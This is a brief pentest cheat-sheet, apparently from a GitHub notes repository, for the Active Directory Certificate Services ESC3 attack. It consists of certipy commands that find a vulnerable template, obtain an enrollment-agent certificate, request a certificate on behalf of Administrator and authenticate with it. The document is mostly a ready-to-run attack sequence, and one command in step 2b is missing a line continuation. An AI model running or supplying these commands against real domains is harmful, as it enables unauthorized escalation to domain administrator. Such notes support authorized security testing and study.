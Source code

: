 # ADCS ESC3

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. Get an “EnrollAgent” cert 
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> \
            -dc-ip <DC_IP> \
            -dc-host <DC_HOST> \
            -template <ESC3_ENROLLAGENT_TEMPLATE>
```

## 2b. Use it to request a cert **on behalf of** Administrator
```
certipy req -u <username> -p '<password>' \
            -dc-ip <DC_IP> -target <CA_FQDN> \
            -dc-host <DC_HOST> -ca <CA_NAME> \
            -pfx <attacker.pfx>
            -template <ESC3_ENROLLAGENT_TEMPLATE> -on-behalf-of '<domain>\\Administrator'
```

## 3. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
